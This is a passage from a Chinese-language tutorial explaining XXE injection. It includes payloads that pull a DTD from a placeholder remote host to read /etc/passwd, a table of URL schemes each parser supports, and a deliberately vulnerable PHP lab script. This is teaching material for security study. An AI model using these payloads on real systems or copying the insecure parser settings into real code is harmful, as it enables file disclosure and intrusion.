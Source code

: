 http://xxxx.com/xxe.dtd的内容为：

```
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```

有的小伙伴可能已经发现了，例1中实体名前面并没有%，而例2中实体名前是有%的，这里的区别在于，例1中定义的实体是通用实体，而例2中定义的是参数实体，并且参数实体只能在dtd中使用，即例2代码中的第三行 **%d;**，这里就像在外面引用统用实体一样，这里的%d;就引用了http://xxx.com/xxe.dtd这个文件到dtd中。

#### 例3：

```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://xxx.com/xxe.dtd">
<x>&xxe;</x>
```

http://xxxx.com/xxe.dtd的内容为：

```
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```



不同程序支持的协议不同，如下图：

| LIBXML2 | PHP            | JAVA     | .NET  |
| ------- | -------------- | -------- | ----- |
| file    | file           | http     | file  |
| http    | http           | https    | http  |
| ftp     | ftp            | ftp      | https |
|         | php            | file     | ftp   |
|         | compress.zlib  | jar      |       |
|         | compress.bzip2 | netdoc   |       |
|         | data           | mailto   |       |
|         | glob           | gopher * |       |
|         | phar           |          |       |

**以上面的例子可能还是说的不太清楚，那我们就用一个实例来看一下XXE漏洞到底是什么东西：**

### 实例1：

**环境设置**

PHPstudy集成 Apache2.4.39 PHP5.2.17nts

**xxe.php后端代码**

```
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
echo $creds;
?>
```
